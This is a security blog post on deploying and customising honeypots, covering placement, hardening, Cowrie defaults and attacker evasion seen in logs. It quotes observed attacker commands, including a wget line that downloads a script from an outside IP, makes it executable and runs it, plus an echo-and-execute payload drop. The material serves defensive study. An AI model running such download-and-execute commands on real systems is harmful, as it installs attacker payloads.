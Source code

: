 ```yaml
---
layout: post
title:  "Honeypot Deployment and Customization"
date:   2020-11-24 19:00 +0100
tags: malware
---
```

Deploying Honeypots right is not always straightforward and leaves plenty of room for mistakes. Join me for a while to learn about deployment and customization of Honeypots.

<!--more-->

This is part 2 of a series detailing visualization, automation, deployment considerations, and pitfalls of Honeypots ([Part 1]({% post_url 2020-06-19-honeypot-intro %})).  
An extended version of this article and an according talk can be found at [Virus Bulletin 2020](https://vblocalhost.com/conference/presentations/like-bees-to-a-honeypot-a-journey-through-honeypots/).

The first step to data collection, which is also the most important one, is the deployment of Honeypots. There are multiple pitfalls and recommendations to consider depending on the use case. After a successful deployment, the next step is to collect generated data and possible payloads at a single data sink to enable metrics generation and monitoring of the complete infrastructure.

## Deployment Considerations
There are two main scenarios to consider when deploying Honeypots: Internal versus internet facing deployments. Both are valid scenarios but cover different use cases. For the remainder of this paper, we focus on internet-facing deployments for data collection if not further defined.
In an internal deployment, Honeypots can be considered as traps or alert systems. The idea is to deploy them throughout the company infrastructure, preferably near production servers. If an attacker is looking for a foothold in a network, they stumble upon these strategically placed systems and try to use them to persist access. Ideally, these Honeypots have been set up to raise alarms if incoming connections are detected, as there is no legit use for them in daily operations. This scenario can support existing measures like Intrusion Detection Systems or log monitoring as an active component to increase chances of early detection of intruders.  
Internet facing deployments on the other hand are more tailored towards collecting data on widespread attacks. This can range from basic information like attacked services (i.e. how common are attacks versus Android Debug Bridges) or used credentials up to detailed TTP information (i.e. which commands/scripts are executed, attempted lateral movement, persistency techniques and possible evasion attempts). In contrast to internal deployments, these are constantly exposed to world-wide traffic. Therefore, they are always to be considered compromised. As these deployments aim to provide no direct protection to an internal network, it is advisable to isolate internet facing Honeypots completely from production infrastructure. 
![Graphic that shows two sample deplyoments. The left is titled "Internal Deployment", showing the honeypot being placed next to production servers. The right is titled "Internet-facing Deployment" and shows the honeypot deployed in a DMZ, separated from all other infrastructure.](/images/deployment.png)
Besides these specifics, we can also derive some general recommendations for all deployment scenarios.  
As these systems are considered insecure by design, it is advisable to treat them accordingly. Leaving production data or company information on them is inadvisable, as well as reusing usernames, passwords, certificates, and SSH keys. If attackers manage to escape from the Honeypot to the hosting OS, they are otherwise able to gain valuable information about internal infrastructure and active usernames.  
Furthermore, it is strongly advised to run Honeypot services as a non-root user that has minimal permissions and is not able to use sudo. In the case of Honeypot escapes this makes it considerably harder for attackers to escalate privileges. As most emulated services are running in the range of system ports which require elevated privileges, it is prudent to run them on non-system ports and utilize iptables forwarding rules to make them look like they are running on the system port.  
If Honeypots for common services like SSH and FTP are deployed, they should be running on the services’ default port. Especially for SSH as means of access for most systems, it is recommended to disable password authentication and root login for the real SSH server, as well as running it on a non-standard port to free up port 22 for the Honeypot. This also means that the creation of an SSH alias in local configs is recommended to avoid connecting to the SSH Honeypot by accident when conducting maintenance or applying configuration changes.  
Another consideration is the hosting service for the infrastructure. If it is not hosted on company-owned infrastructure, the idea of using a low-end VPS provider is compelling. Unfortunately, these are prone to being shut down in context of [deadpooling scams](https://tech.slashdot.org/story/19/12/08/1549222/20-low-end-vps-providers-suddenly-shutting-down-in-a-deadpooling-scam), so it pays to be prepared to loose these systems at any time. In general, automated deployments based on tools like Ansible or Puppet should be used for reproducible results and lower the risk of misconfigurations. Combined with a backup strategy for collected data, logs, and payloads this ensures resilience to data loss.  
Furthermore, it is recommended to minimize the usage of OS-based resources for the specific requirements of Honeypots. For example, the usage of local virtual environments for Python-based projects should be considered over using system-wide package installations to avoid dependency problems with multiple projects running on the same language or OS updates that break dependencies.  
Regarding operation, it is also advisable to monitor the regular operation of deployed Honeypots including storage utilization, ideally with automated tests tailored to the respective protocol.  
Generally speaking, you’re exposing a system to the world that looks vulnerable - it most likely is vulnerable, but in other ways than you’d think. Honeypot deployments, especially when internet facing, are an asymmetrical playing field with an attacker advantage. They have infinite ways and time to try attacks – the operator needs to conduct one mistake to expose the Honeypot host and possibly the surrounding network to attacks.  
Besides the deployment, there are more things to take into consideration. Attackers constantly try to detect Honeypots – with various techniques and varying success rates. A [talk detailing finding flaws and their implications was held at 32c3](https://media.ccc.de/v/32c3-7277-breaking_honeypots_for_fun_and_profit). In the upcoming section, some commonly encountered detection techniques and possible workarounds are presented. These are merely pointers in the right direction. It is advisable to monitor your Honeypot infrastructure constantly and keep an eye out for disconnects always happening after specific commands or workflows, as these can point to evasion strategies.  

## Custom Configurations
Many Honeypots come with a default set of emulated parameters – including Hostname, service version, and credentials. This is especially common in low and medium interaction Honeypots. In the context of Honeypot configurations, customization is the key to evasion mitigation.  
As an example, the SSH Honeypot *Cowrie* is considered. If the default configuration is not changed, it used to accept the user `Richard` with the password `fout`, afterwards announcing that its system name is `svr04`. Checking for default configurations like these is relatively easy and therefore happens quite a lot.  
As a preventive measure, the footprint of the Honeypot should be as custom as possible. Especially announced hostnames, service versions and banners are low hanging fruit that can be changed. For low and medium interaction Honeypots it can also be a valid strategy to change outputs of emulated commands and create custom filesystem pickles to further make the system unique.

## Finding evasion tactics
As a general recommendation, monitor your Honeypots closely, especially in the early days of deployment, as they are "fresh" and unknown at this point. To stay on the example of Cowrie, it is possible to spot evasion techniques quite easily in the generated logs. In all cases the command workflow on the system is the same up until a specific point where commands either fail or are not executed at all. A commonly observed pattern of actors on the Cowrie SSH Honeypot is to echo the raw script into a file and trying to execute it subsequently.  
```bash
user@pot:~$ /bin/busybox echo -en '\x00\x00\x00\x00\xb4\x03\x00\x00\x1e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00' >> retrieve
user@pot:~$ ./retrieve
```
This does not work on most low and medium interaction Honeypots, as they disown files created by the connected SSH user as soon as possible. As these files are now non-existent, the workflow of echoing the initial payload into a file and executing said file afterwards does not work on these Honeypots, therefore it can be considered a successful evasion.
Another evasion technique commonly encountered is to download the payload and execute it in a second command. As discussed, this approach leads to a successful evasion, as the file is not available to the user anymore at time of execution.  
```bash
user@pot:~$ cd /; wget http://45.148.10.175/bins.sh; chmod 777 bins.sh; sh bins.sh;
```
There are not many mitigations available to these issues. Due to the very nature of low and medium interaction Honeypots, the most viable mitigation is to switch to a high interaction system. High interaction Honeypots present a complete, persistent environment to an incoming connection that often is cached even through reconnects. This means that all dropped or downloaded payloads are available for execution instead of being snatched away by the Honeypot.

## Sanity Checks
Sanity checks are also encountered quite often. As an initial example an SMTP Honeypot is considered. Attackers will try to connect to a mail server and send a test mail to their own infrastructure to check if the mail server is allowing outbound mail traffic. 
```json
{
  "timestamp": "2020-06-14T08:57:00.854855",
  "src_ip": "0.0.0.0", "src_port": 54282, "eventid": "mailhon.data",
  "envelope_from": "spam@provider.com", "envelope_to": ["spam@provider.com "],
   "envelope_data": "From: spam@provider.com\r\nSubject: 42.42.42.42\r\n
        To: spam@provider.com\r\nDate: Sat, 13 Jun 2020 23:56:59 -0700\r\nX-Priority: 3\r\n"
}
```
A possible mitigation is to allow the first mail from every connection to leave the honeypot. Be advised that this bears legal implications as the system is technically sending out spam.  
Besides the fully-fledged production test there are other sanity checks that can be observed. As a general guideline, deployed Honeypots should expose a configuration and sizing that is similar to their real-world counterparts. This can be archived more easily on low and medium interaction HPs as they often emulate commands by looking up text files which massively eases the spoofing of cluster states, replica configurations or even filesystem sizes. 

## Conclusion
As one can see, there is a lot to consider and check when deploying Honeypots. But don't fret - the work definitely pays off. It is very interesting to watch in realtime what is happening on your systems. But looking at logs isn't that much fun, so join me in the next part for details on sighting and visualizing data!
